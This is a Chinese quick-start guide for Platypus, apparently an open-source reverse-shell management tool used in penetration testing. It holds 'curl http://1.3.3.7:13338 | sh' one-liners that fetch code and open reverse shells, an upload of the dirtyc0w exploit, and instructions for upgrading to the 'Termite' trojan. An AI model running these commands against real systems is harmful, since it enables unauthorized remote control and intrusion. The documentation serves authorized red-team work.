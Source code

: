 # 快速上手

!!! Tips
    您可以在[**这里**](https://github.com/WangYihang/Platypus/releases)下载到最新的 Release 版，
    您也可以参考[**这里**](./build.md)直接从源码编译得到 Platypus 的可执行文件。

## 运行

!!! Hint
    这里假设 Platypus 运行在具有公网 IP 的服务器上，其 IP 为 1.3.3.7。

```
./platypus_linux_amd64
```

如果您对 Platypus 的具体启动流程感兴趣，可以参考[本文](./run.md)。

## 与 Platypus 交互

!!! Hint
    Platypus 提供 3 种与之交互的方式。

    * [命令行](./interact/cli.md)
    * [Web 界面](./interact/web.md)
    * [Python SDK](./interact/python-sdk.md)

这里只介绍最基础的命令行模式的一些命令。

!!! Hint
    Platypus 对命令的大小写不敏感并且支持 Tab 自动对命令进行补全，您可以输入 `L` 然后按下 ++tab++ 键即可自动补全。

### List

列出当前正在监听的服务器以及每一个服务器上存活的 Shell。

### Jump

!!! Tips
    Platypus 会根据配置文件中的哈希计算模式（`hashFormat`）对每一个上线的 Shell 计算哈希，该哈希会作为该 Shell 的唯一标识。

跳转到某一个 Shell 对其进行操作。

例如：

```
Jump 1b7fb280df68ceebae36060c938a2ced
```

跳转成功后，终端的命令提示符将会修改为当前 Shell 的相关信息。
后续的命令（如：`Interact`）将会直接对当前的 Shell 进行操作。

### Interact

当跳转到某一个 Shell 之后，与之进行交互。

!!! Warning
    如果您直接执行 Interact 命令得到的 Shell 将会与 netcat 类似，并非纯交互式 Shell。
    如果您希望得到一个像 SSH 一样好用丝滑的 Shell 请参考[本文](./interactive.md)。

### Upload / Download

当跳转到某一个 Shell 之后，上传或下载文件。

### 上传

```bash
Upload ./dirtyc0w.c /tmp/dirtyc0w.c
```

### 下载

```bash
Download /tmp/www.tar.gz ./www.tar.gz
```

## 反弹一个反向 Shell

```bash
curl http://1.3.3.7:13338 | sh
```

受到 [lukechilds](https://github.com/lukechilds) 的 [reverse-shell](https://github.com/lukechilds/reverse-shell) 项目的启发，Platypus 支持 Reverse Shell as a Serivce，基本语法与其相同，但增加了一些不同语言的反向 Shell 的 Payload。

### 反弹 Shell 至 `1.3.3.7:13338`

```bash
curl http://1.3.3.7:13338 | sh
curl http://1.3.3.7:13338/python | sh
```

### 反弹 Shell 至 `2.3.3.7:4444`

```bash
curl http://1.3.3.7:13338/2.3.3.7/4444 | sh
curl http://1.3.3.7:13338/2.3.3.7/4444/ruby | sh
```

反弹成功之后，Platypus 会对新上线的 Shell 进行基础的信息搜集（如：操作系统，用户名等），
当信息搜集结束后，即可利用 Platypus 与之进行交互。

## 升级至 Termite（推荐）

当您已经获得了一个反向 Shell 之后，强烈建议您使用 `Upgrade` 命令将其升级为更稳定可靠并且提供加密机制等其他非常有用的功能的 Termite Shell。

!!! Termite
    Termite 是 Platypus 的二进制木马，提供流量加密、交互式 Shell 等功能。

当您已经使用 `Jump` 命令跳转到目标 Shell 之后，您可以使用 `Upgrade 1.3.3.7:13337` 来将当前的明文 Shell 提升为更加可靠的 Termite，稍等片刻，您将会看到一个带有 `[Encrypted]` 标记的 Shell 上线。

Termite 提供了多种有用功能，如：

* 完全交互式 Shell（使用就像 SSH 一样丝滑），并且可以多人同时启动多个 Shell 而互不影响。
* 4 种不同的[隧道](./tunnel.md)功能
* 更加稳定可靠的文件操作

与 Termite 交互的逻辑与通常的反向 Shell 一致，即：`Jump` 然后 `Interact`。